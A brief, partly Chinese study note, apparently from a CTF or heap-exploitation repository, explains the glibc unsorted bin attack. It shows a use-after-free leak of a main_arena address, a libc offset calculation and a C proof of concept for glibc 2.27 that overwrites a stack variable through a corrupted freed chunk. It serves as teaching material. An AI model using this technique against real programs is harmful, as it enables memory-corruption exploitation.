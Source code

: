 # Unsorted_bin_attack

## Link main_arena

* malloc  chunk1，chunk2

* free chunk1 

* 通过UAF打印chunk1中FD的值，就是main_arena + 96 的地址。

* main_arena_offset 计算。libc2

  * ```c
    main_arena_offset = ELF("libc.so.6").symbols["__malloc_hook"] + 0x10
    ```

## Glibc 2.27 unsorted bin attack

```C
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main(){
	volatile unsigned long stack_var=0;

	unsigned long *p=malloc(0x410);
	malloc(500);

	free(p);

	p[1]=(unsigned long)(&stack_var-2);

	malloc(0x410);

	fprintf(stderr, "%p: %p\n", &stack_var, (void*)stack_var);

	assert(stack_var != 0);
}
```

